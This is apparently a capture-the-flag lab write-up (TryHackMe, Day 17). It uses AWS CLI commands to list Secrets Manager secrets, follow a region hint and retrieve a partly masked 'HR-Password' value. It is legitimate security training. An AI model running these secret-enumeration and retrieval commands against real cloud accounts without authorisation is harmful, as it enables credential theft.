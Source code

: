```bash
aws secretsmanager list-secrets --profile TryHackMeDay17
```
There we found secret ARN: `arn:aws:secretsmanager:******:*******:******:******-8AkWYF`


Now get its value
```bash
aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:******:*******:******:******-8AkWYF --profile TryHackMeDay17
```

That's not it! (read string)
```json
{
    "ARN": "arn:aws:secretsmanager:******:*******:******:******-8AkWYF",
    "Name": "HR-Password",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-24T04:29:07.718000+03:00"
}
```

But there is a hint! lets make another request:

```bash
aws secretsmanager list-secrets --profile TryHackMeDay17 --region <WHERE_SANTA_LIVES??>
```


New ARN: 
```
arn:aws:secretsmanager:******:*****:*****:*******-KIJEvK
```



And new request for value with new intel:

```bash
aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:******:*****:*****:*******-KIJEvK --profile TryHackMeDay17 --region <WHERE_SANTA_LIVES??>
```



We got password!

```json
{
    "ARN": "arn:aws:secretsmanager:******:*****:*****:*******-KIJEvK",
    "Name": "HR-Password",
    "VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
    "SecretString": "Wi********",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-13T16:26:19.996000+03:00"
}
```

